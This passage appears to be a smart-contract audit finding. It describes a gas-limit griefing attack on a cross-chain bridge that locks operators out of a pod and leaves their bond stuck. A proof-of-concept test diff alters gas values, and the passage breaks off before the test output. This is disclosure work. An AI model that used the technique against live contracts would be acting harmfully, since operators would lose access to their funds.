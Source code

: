 ### Impact

Operators would be locked out of the pod, unable to execute any more jobs and not being able to get back the bond they paid.

The attacker would have to pay a value equivalent to the gas fee if that amount was realistic (i.e. `gasPrice` \* `gasLimit` in dest chain native token), but this can be a relative low amount for Polygon and Avalanche chain (for Polygon that's 20M gas limit and `200 Gwei gas = 4 Matic`, for Avalanche the block gas limit seems to be 8M and the price `~30 nAVAX = 0.24 AVAX`). Plus, the operator isn't going to receive that amount.

### Proof of Concept

The following test demonstrates this scenario:

```diff
diff --git a/test/06_cross-chain_minting_tests_l1_l2.ts b/test/06_cross-chain_minting_tests_l1_l2.ts
index 1f2b959..a1a23b7 100644
--- a/test/06_cross-chain_minting_tests_l1_l2.ts
+++ b/test/06_cross-chain_minting_tests_l1_l2.ts
@@ -276,6 +276,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             gasLimit: TESTGASLIMIT,
           })
         );
+        estimatedGas = BigNumber.from(50_000_000);
         // process.stdout.write('\n' + 'gas estimation: ' + estimatedGas.toNumber() + '\n');

         let payload: BytesLike = await l1.bridge.callStatic.getBridgeOutRequestPayload(
@@ -303,7 +304,8 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             '0x' + remove0x((await l1.operator.getMessagingModule()).toLowerCase()).repeat(2),
             payload
           );
-
+        estimatedGas = BigNumber.from(5_000_000);
+
         process.stdout.write(' '.repeat(10) + 'expected lz gas to be ' + executeJobGas(payload, true).toString());
         await expect(
           adminCall(l2.mockLZEndpoint.connect(l2.lzEndpoint), l2.lzModule, 'lzReceive', [
@@ -313,7 +315,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             payload,
             {
               gasPrice: GASPRICE,
-              gasLimit: executeJobGas(payload),
+              gasLimit: 5_000_000,
             },
           ])
         )
```

The test would fail with the following output:

